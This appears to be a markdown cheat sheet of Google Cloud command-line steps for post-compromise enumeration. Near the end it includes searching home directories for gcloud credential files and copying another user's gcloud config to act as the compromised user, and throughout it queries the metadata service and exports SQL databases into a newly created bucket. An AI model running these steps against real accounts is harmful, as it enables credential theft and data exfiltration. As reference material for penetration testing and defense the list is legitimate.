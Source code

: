 # **ACCOUNT INFORMATION**
#### User Identity Login
```gcloud auth login```
#### Service Account Login
```gcloud auth activate-service-account --key-file creds.json```
#### List Accounts Available to gcloud
```gcloud auth list```
#### List Organizations
```gcloud organizations list```
#### Enumerate IAM Policies set ORG-Wide
```gcloud organizations get-iam-policy <org ID>```
#### Enumerate IAM Policies set per project
```gcloud projects get-iam-policy <project ID>```
#### List Projects
```gcloud projects list```
#### Change or Set a different project
```gcloud config set project <project name>```
#### Gives a list of all APIs that are enabled in a project
```gcloud services list```
#### Get source code repos available to the user
```gcloud source repos list```
#### Clone repo to home dir
```gcloud source repos clone <repo_name>```

# **VIRTUAL MACHINES**
#### List compute instances
```gcloud compute instances list```
#### Give Shell Access to instance
```gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"```
#### Puts public ssh key onto metadata service for project
```gcloud compute ssh <local host>```
#### Get access scopes if on an instance
```curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google’```
#### Use Google keyring to decrypt encrypted data
```gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global```

# **STORAGE**
#### List Google Storage buckets
```gsutil ls```

#### List Google Storage buckets recursively
```gsutil ls -r gs://<bucket name>```

#### Copy item from bucket
```gsutil cp gs://bucketid/item ~/```

# **WEBAPPS AND SQL**
#### List WebApps
```gcloud app instances list```

#### List SQL instances
```gcloud sql instances list```
```gcloud spanner instances list```
```gcloud bigtable instances list```

#### List SQL databases
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>

#### Export SQL databases and buckets
First, copy buckets to the local directory
```gsutil cp gs://bucket-name/folder/ .```

#### Create a new storage bucket, change perms, export SQL DB
```gsutil mb gs://<googlestoragename>```
```gsutil acl ch -u <service account> gs://<googlestoragename>```
```gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>```

# **NETWORKING**
#### List networks
```gcloud compute networks list```

#### List subnets
```gcloud compute networks subnets list```

#### List VPN tunnels
```gcloud compute vpn-tunnels list```

#### List Interconnects (VPN)
```gcloud compute interconnects list```

# **CONTAINERS**
#### List existing containers in cluster
```gcloud container clusters list```

#### To get GCP Kubernetes config file ~/.kube/config gets generated when you are authenticated with gcloud and run
```gcloud container clusters get-credentials <cluster name> --region <region>```
#### If successful and the user has the correct permission the Kubernetes command below can be used to get cluster-info
```kubectl cluster-info```

# **SERVERLESS**
#### GCP functions log analysis – May get useful information from logs associated with GCP functions
```gcloud functions list```
```gcloud functions describe <function name>```
```gcloud functions logs read <function name> --limit <number of lines>```

#### GCP Cloud Run analysis – May get useful information from descriptions such as environment variables.
```gcloud run services list```
```gcloud run services describe <service-name>```
```gcloud run revisions describe --region=<region> <revision-name>```

#### Gcloud stores creds in ~/.config/gcloud/credentials.db Search home directories
```sudo find /home -name "credentials.db```

#### Copy gcloud dir to your own home directory to auth as the compromised user
```sudo cp -r /home/username/.config/gcloud ~/.config```
```sudo chown -R currentuser:currentuser ~/.config/gcloud```
```gcloud auth list```

#### Metadata Service URL
```curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"```
